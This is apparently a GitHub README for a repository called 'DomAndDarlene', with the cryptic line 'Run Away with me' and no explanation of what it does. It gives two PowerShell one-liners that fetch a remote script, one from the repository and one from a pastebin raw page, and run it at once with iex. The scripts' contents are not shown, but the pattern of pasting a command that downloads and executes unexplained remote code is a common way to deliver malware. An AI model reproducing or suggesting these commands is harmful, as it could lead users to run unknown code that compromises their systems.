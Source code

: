 # DomAndDarlene
Run Away with me

## Powershell:
`iex (iwr https://raw.githubusercontent.com/RavenCraftInitaitives/DomAndDarlene/main/test1.ps1).Content`

Or,

`iex (iwr https://pastebin.pl/view/raw/04f9726b).content`
